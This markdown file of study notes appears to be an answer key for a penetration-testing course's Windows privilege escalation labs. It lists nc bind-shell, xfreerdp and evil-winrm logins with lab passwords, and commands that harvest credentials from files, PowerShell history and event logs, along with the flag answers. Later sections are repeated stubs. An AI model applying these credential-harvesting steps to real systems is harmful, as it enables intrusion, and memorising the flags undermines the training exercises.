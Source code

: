 # Comands to execute  to get flags for labs

### Chapter 16 - Windows Privilege Escalation

**==== 16.1.2 ====**

Q1) Check the users of the local group Remote Management Users on CLIENTWK220 (VM #1). Enter a user which is in this group apart from steve.
  - Use VM #1
  - netcat to machnine `nc <machine ip> 4444`
  - use this command `Get-LocalGroupMember "Remote Management Users"` and the flag should be the username `daveadmin`

Q2) Enumerate the installed applications on CLIENTWK220 (VM #1) and find the flag.
  - Use VM #1
  - netcat to machnine `nc <machine ip> 4444`
  - use this command `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"` and the flag will be in the output

Q3) We'll now use an additional machine, CLIENTWK221 (VM #2), to practice what we learned in this section. Access the machine via RDP as user mac with the password IAmTheGOATSysAdmin!. Identify another member of the local Administrators group apart from offsec and Administrator.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command `Get-LocalGroupMember "Administrators"` and the flag should be the username `roy`

Q4) Enumerate the currently running processes on CLIENTWK221 (VM #2). Find a non-standard process and locate the flag in the directory of the corresponding binary file.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command to find the proccess name `Get-Process`
  - once the name is identified use this comand to find the binary `Get-Process <proccess name> | Select-Object Path`
  - go to the directory where the exe is and `type flag.txt`

**==== 16.1.3 ====**    

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1
  - rdp to machnine `xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.190.220 /h:650`
  - start powershell
  - use this command ro run powershell as the admin `runas /user:backupadmin powershell` with the password `admin123admin123!`
  - type `type C:\Users\backupadmin\desktop\flag.txt`

Q2) Log into the system CLIENTWK220 (VM #1) via RDP as user steve. Search the file system to find login credentials for a web page for the user steve and enter the password as answer to this exercise.
  - flag is `thisIsWhatYouAreLookingFor`
  - Use VM #1
  - rdp to machnine `xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.190.220 /h:650`
  - use this command `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"` and the flag will be in the output
  - use this command to find txt file`Get-ChildItem -Path C:\Users\steve\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
  - type it out

Q3)Connect to CLIENTWK221 (VM #2) via RDP as user mac with the password IAmTheGOATSysAdmin! and locate sensitive information on the system to elevate your privileges. Once found, use the credentials to access the system as this user and find the flag on the Desktop.
  - Use VM #2
  - xfreerdp to machnine `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - Start powershell
  - use this command to runas another user `run-as /user:richmond powerhshell` and when prompted enter password `GothicLifeStyle1337!`
  - once loged in the flag is on the desktop `type C:\Users\richmond\Desktop\flag.txt`

**==== 16.1.4 ====**  

Q1) Follow the steps above and obtain an interactive shell as daveadmin on CLIENTWK220 (VM #1). Enter the flag, which can be found on the desktop.
  - evil-winrm to machnine `evil-winrm -i 192.168.190.220 -u daveadmin -p "qwertqwertqwert123\!\!"`
  - cd Desktop adn type flag

Q2) Connect to CLIENTWK220 (VM #1) as daveadmin via RDP. Use the Event Viewer to search for events recorded by Script Block Logging. Find the password in these events.
  - flag is `ThereIsNoSecretCowLevel1337`
  - Use VM #1
  - rdp `xfreerdp /u:daveadmin /p:"qwertqwertqwert123\!\!" /v:192.168.190.220 /h:650`
  - use event viewer and filter for event id `4101`
  - find password
    
Q3) Connect to CLIENTWK221 (VM #2) via RDP as user mac with the password IAmTheGOATSysAdmin!. Enumerate the machine and use the methods from this section to find credentials. Utilize them and find the flag. 
  - use VM #2
  - rdp to target `xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.190.221 /h:650`
  - get the history ` type C:\Users\mac\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
  - flag is there

**==== 16.1.5 ====**  

Q1) Follow the steps above and obtain an interactive shell as daveadmin on CLIENTWK220 (VM #1). Enter the flag, which can be found on the desktop.
  - Use VM #1

**==== 16.2.1 ====**  

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1

**==== 16.2.2 ====**  

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1

**==== 16.2.3 ====**  

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1

**==== 16.3.1 ====**  

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1
  - 
**==== 16.2.2 ====**

Q1) Connect to the bind shell (port 4444) on CLIENTWK220 (VM #1) and follow the steps from this section. Find the flag on the desktop of backupadmin.
  - Use VM #1
    
